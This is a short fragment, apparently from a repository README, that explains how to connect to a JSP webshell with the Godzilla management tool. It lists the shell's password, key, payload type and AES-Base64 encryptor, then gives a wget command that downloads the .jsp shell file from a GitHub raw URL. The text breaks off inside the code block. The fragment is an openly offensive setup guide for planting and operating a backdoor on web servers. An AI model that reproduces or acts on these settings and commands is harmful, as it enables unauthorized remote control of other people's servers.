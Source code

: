 ### jsp连接方式
Godzilla连接配置:

密码:Tas9er  密钥:0WKj6wD  有效载荷:JavaDynamicPayload  加密器:JAVA_AES_BASE64

```
wget https://raw.githubusercontent.com/kd6379/test/refs/heads/main/test1.jsp
